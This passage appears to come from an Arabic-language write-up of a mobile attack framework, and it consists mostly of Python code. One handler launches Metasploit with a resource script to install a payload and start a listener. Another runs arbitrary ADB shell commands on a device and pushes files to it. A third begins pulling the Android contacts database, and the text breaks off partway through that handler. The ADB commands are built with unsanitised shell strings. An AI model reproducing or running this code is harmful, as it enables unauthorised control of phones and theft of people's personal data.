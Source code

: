 ```python
    with open("/tmp/msf_script.rc", "w") as f:
        f.write(msf_cmd)
    
    subprocess.Popen("msfconsole -r /tmp/msf_script.rc", shell=True)
    
    return {"success": True, "payload_installed": True, "listener_started": True}
```

#### 4. **هجوم ADB:**
```python
# الأمر المرسل
command = "mobile_attack"
parameters = {
    "attack_type": "adb",
    "action": "shell_access",
    "command": "whoami && id"
}

# التنفيذ الفعلي على الجهاز
def execute_adb_attack(parameters):
    import subprocess
    
    action = parameters.get("action", "shell_access")
    command = parameters.get("command", "whoami")
    
    if action == "shell_access":
        # الوصول إلى Shell
        adb_cmd = f"adb shell '{command}'"
        result = subprocess.check_output(adb_cmd, shell=True).decode()
        
        return {"success": True, "output": result}
    
    elif action == "file_transfer":
        # نقل الملفات
        source = parameters.get("source")
        destination = parameters.get("destination")
        
        adb_cmd = f"adb push {source} {destination}"
        subprocess.run(adb_cmd, shell=True)
        
        return {"success": True, "file_transferred": True}
```

### ✅ **ج. أوامر استخراج البيانات:**

#### 5. **استخراج جهات الاتصال:**
```python
# الأمر المرسل
command = "extract_contacts"
parameters = {}

# التنفيذ الفعلي على الجهاز
def execute_contacts_extraction(parameters):
    import subprocess
    import json
    
    # استخراج جهات الاتصال عبر ADB
    contacts_cmd = "adb shell content query --uri content://com.android.contacts/contacts"
    contacts_output = subprocess.check_output(contacts_cmd, shell=True).decode()
    
    # تحليل البيانات
    contacts = []
    for line in contacts_output.split('\n'):
```